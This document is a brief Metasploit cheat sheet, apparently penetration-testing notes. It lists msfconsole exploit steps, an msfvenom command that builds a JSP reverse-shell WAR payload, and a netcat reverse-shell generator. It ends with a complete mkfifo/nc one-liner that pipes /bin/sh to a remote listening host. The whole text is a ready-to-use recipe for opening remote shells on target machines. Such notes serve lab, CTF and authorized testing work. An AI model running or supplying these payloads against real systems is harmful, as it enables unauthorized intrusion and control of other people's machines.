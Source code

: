 
MSFconsole
---
```
search $TARGET_SERVICE
use X
 options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```shell
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```shell
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```shell
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

